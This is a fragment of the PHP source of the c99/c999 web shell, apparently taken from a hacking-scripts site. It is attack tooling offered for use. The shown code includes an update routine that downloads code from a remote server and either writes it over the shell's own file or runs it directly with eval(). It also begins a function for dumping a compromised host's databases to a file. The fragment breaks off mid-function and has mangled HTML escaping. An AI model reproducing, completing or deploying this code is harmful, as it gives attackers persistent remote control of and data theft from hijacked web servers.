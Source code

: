 function c999sh_getupdate($update = TRUE)
{
 $url = $GLOBALS["c999sh_updateurl"]."?version=".urlencode(base64_encode($GLOBALS["shver"]))."&updatenow=".($updatenow?"1":"0")."&";
 $data = @file_get_contents($url);
 if (!$data) {return "Can't connect to update-server!";}
 else
 {
  $data = ltrim($data);
  $string = substr($data,3,ord($data{2}));
  if ($data{0} == "\x99" and $data{1} == "\x01") {return "Error: ".$string; return FALSE;}
  if ($data{0} == "\x99" and $data{1} == "\x02") {return "You are using latest version!";}
  if ($data{0} == "\x99" and $data{1} == "\x03")
  {
   $string = explode("\x01",$string);
   if ($update)
   {
    $confvars = array();
    $sourceurl = $string[0];
    $source = file_get_contents($sourceurl);
    if (!$source) {return "Can't fetch update!";}
    else
    {
     $fp = fopen(__FILE__,"w");
     if (!$fp) {return "Local error: can't write update to ".__FILE__."! You may download c999shell.php manually &lt;a href="\&quot;&quot;.$sourceurl.&quot;\&quot;"&gt;&lt;span style="text-decoration: underline;"&gt;here&lt;/span&gt;&lt;/a&gt;.";}
     else {fwrite($fp,$source); fclose($fp); return "Thanks! Updated with success.";}
    }
   }
   else {return "New version are available: ".$string[1];}
  }
  elseif ($data{0} == "\x99" and $data{1} == "\x04") {eval($string); return 1;}
  else {return "Error in protocol: segmentation failed! (".$data.") ";}
 }
}
}
if (!function_exists("mysql_dump"))
{
function mysql_dump($set)
{
 global $shver;
 $sock = $set["sock"];
 $db = $set["db"];
 $print = $set["print"];
 $nl2br = $set["nl2br"];
 $file = $set["file"];
 $add_drop = $set["add_drop"];
 $tabs = $set["tabs"];
 $onlytabs = $set["onlytabs"];
 $ret = array();
 $ret["err"] = array();
 if (!is_resource($sock)) {echo("Error: \$sock is not valid resource.");}
 if (empty($db)) {$db = "db";}
 if (empty($print)) {$print = 0;}
 if (empty($nl2br)) {$nl2br = 0;}
 if (empty($add_drop)) {$add_drop = TRUE;}
 if (empty($file))
 {
  $file = $tmpdir."dump_".getenv("SERVER_NAME")."_".$db."_".date("d-m-Y-H-i-s").".sql";
 }
 if (!is_array($tabs)) {$tabs = array();}
 if (empty($add_drop)) {$add_drop = TRUE;}
 if (sizeof($tabs) == 0)

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png